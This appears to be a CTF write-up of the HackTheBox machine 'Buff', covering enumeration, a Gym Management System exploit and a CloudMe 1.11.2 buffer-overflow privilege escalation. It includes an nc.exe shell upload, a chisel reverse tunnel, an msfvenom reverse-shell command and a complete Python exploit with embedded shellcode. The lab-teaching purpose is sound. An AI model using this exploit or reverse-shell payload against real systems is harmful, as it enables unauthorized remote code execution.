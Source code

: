 ```yaml
---
title: HackTheBox - Buff
date: 2021-09-07 00:49:17 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [Gym Management System, searchsploit, nc.exe, port forwarding, chisel, buffer overflow, pwn, msfvenom, shellcode, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/buff/Buff.jpeg
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Buff-full-port-scan.txt 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Port 8080 (HTTP)

![](/assets/img/htb/machines/windows/easy/buff/8080.png)

Visiting port 8080 shows us a web page about fitness.

![](/assets/img/htb/machines/windows/easy/buff/contact.png)

The `/contact.php` page discloses that Gym Management Software is being used.

![](/assets/img/htb/machines/windows/easy/buff/searchsploit.png)

Using `searchsploit` we identified a potential exploit.

## Foothold

The exploit mimics a shell and allows us to send remote command.

![](/assets/img/htb/machines/windows/easy/buff/exploit.png)

We can upgrade our shell to a more stable shell by uploading `nc.exe` and executing it:

```bash
$ locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe
$ cp /usr/share/windows-resources/binaries/nc.exe .
```

![](/assets/img/htb/machines/windows/easy/buff/more_stable_shell.png)

![](/assets/img/htb/machines/windows/easy/buff/nc.png)

## Privesc

Using `winPEAS` we can see that there is an app called `CloudMe` which is running on local port **8888** but is not running on remote port.

![](/assets/img/htb/machines/windows/easy/buff/cloudme_tcp.png)

Plus, if we look at `C:\Users\shaun\Downloads\`, we can find a binary file called `CloudMe_1112.exe`:

```powershell
PS C:\Users\shaun\Downloads> dir
dir


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```

In order to transfer it to our local machine, we can take advantage of the current web server:

```cmd
C:\Users\shaun\Downloads>copy CloudMe_1112.exe C:\xampp\htdocs\gym\                                                                                 
copy CloudMe_1112.exe C:\xampp\htdocs\gym\
        1 file(s) copied.
```

> **Note**: following [**Stack-Based Buffer Overflows on Windows x86** course on Academy](https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86) will guide you on writing an exploit for this program.

### Port forwarding with `chisel`

`CloudMe` is listening only on localhost.

If we want to make this port available to our machine, we can use a **SOCKS proxy** such as `Chisel`. Go to the [release page](https://github.com/jpillora/chisel/releases) and download the last executables for windows and linux amd64.

- First, on our Kali machine, we have to set up the Chisel server, listening on any port (here 9999):

    ```bash
    $ /chisel_1.7.6_linux_amd64 server -p 9999 --reverse
    2021/09/07 00:09:35 server: Reverse tunnelling enabled
    2021/09/07 00:09:35 server: Fingerprint EFwUZIpNMK9gCrrI3aubBlSlDShKhEzk0ophq0C08S4=
    2021/09/07 00:09:35 server: Listening on http://0.0.0.0:9999
    ```

- Then, on the target machine, tunel the port 8888 to our machine:

    ```cmd
    C:\>.\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    .\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    2021/09/06 23:17:24 client: Connecting to ws://10.10.14.12:9999
    2021/09/06 23:17:26 client: Connected (Latency 188.0315ms)
    ```

### Exploitation

Looking for `CloudMe` with `searchsploit`, we can find multiple exploits:

![](/assets/img/htb/machines/windows/easy/buff/cloud_me_exploits.png)

The first one will worked just fine but we have to replace the shellcode. `msfvenom` can help us to do that:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
```

Then we can edit the exploit source file as follows:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
payload =  b""
payload += b"\xb8\x45\x01\x16\x38\xd9\xed\xd9\x74\x24\xf4\x5f"
payload += b"\x33\xc9\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\x02"
payload += b"\x0f\xf4\xcd\x70\xe7\x7a\x2d\x88\xf8\x1a\xa7\x6d"
payload += b"\xc9\x1a\xd3\xe6\x7a\xab\x97\xaa\x76\x40\xf5\x5e"
payload += b"\x0c\x24\xd2\x51\xa5\x83\x04\x5c\x36\xbf\x75\xff"
payload += b"\xb4\xc2\xa9\xdf\x85\x0c\xbc\x1e\xc1\x71\x4d\x72"
payload += b"\x9a\xfe\xe0\x62\xaf\x4b\x39\x09\xe3\x5a\x39\xee"
payload += b"\xb4\x5d\x68\xa1\xcf\x07\xaa\x40\x03\x3c\xe3\x5a"
payload += b"\x40\x79\xbd\xd1\xb2\xf5\x3c\x33\x8b\xf6\x93\x7a"
payload += b"\x23\x05\xed\xbb\x84\xf6\x98\xb5\xf6\x8b\x9a\x02"
payload += b"\x84\x57\x2e\x90\x2e\x13\x88\x7c\xce\xf0\x4f\xf7"
payload += b"\xdc\xbd\x04\x5f\xc1\x40\xc8\xd4\xfd\xc9\xef\x3a"
payload += b"\x74\x89\xcb\x9e\xdc\x49\x75\x87\xb8\x3c\x8a\xd7"
payload += b"\x62\xe0\x2e\x9c\x8f\xf5\x42\xff\xc7\x3a\x6f\xff"
payload += b"\x17\x55\xf8\x8c\x25\xfa\x52\x1a\x06\x73\x7d\xdd"
payload += b"\x69\xae\x39\x71\x94\x51\x3a\x58\x53\x05\x6a\xf2"
payload += b"\x72\x26\xe1\x02\x7a\xf3\xa6\x52\xd4\xac\x06\x02"
payload += b"\x94\x1c\xef\x48\x1b\x42\x0f\x73\xf1\xeb\xba\x8e"
payload += b"\x92\x19\x31\x9e\x6e\x76\x47\x9e\x7f\xda\xce\x78"
payload += b"\x15\xf2\x86\xd3\x82\x6b\x83\xaf\x33\x73\x19\xca"
payload += b"\x74\xff\xae\x2b\x3a\x08\xda\x3f\xab\xf8\x91\x1d"
payload += b"\x7a\x06\x0c\x09\xe0\x95\xcb\xc9\x6f\x86\x43\x9e"
payload += b"\x38\x78\x9a\x4a\xd5\x23\x34\x68\x24\xb5\x7f\x28"
payload += b"\xf3\x06\x81\xb1\x76\x32\xa5\xa1\x4e\xbb\xe1\x95"
payload += b"\x1e\xea\xbf\x43\xd9\x44\x0e\x3d\xb3\x3b\xd8\xa9"
payload += b"\x42\x70\xdb\xaf\x4a\x5d\xad\x4f\xfa\x08\xe8\x70"
payload += b"\x33\xdd\xfc\x09\x29\x7d\x02\xc0\xe9\x9d\xe1\xc0"
payload += b"\x07\x36\xbc\x81\xa5\x5b\x3f\x7c\xe9\x65\xbc\x74"
payload += b"\x92\x91\xdc\xfd\x97\xde\x5a\xee\xe5\x4f\x0f\x10"
payload += b"\x59\x6f\x1a"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We forwarded the port 8888 of the target on ou port 8888, now we just have to run the exploit:

![](/assets/img/htb/machines/windows/easy/buff/flag.png)

___

## Useful links

- [Chisel](https://github.com/jpillora/chisel)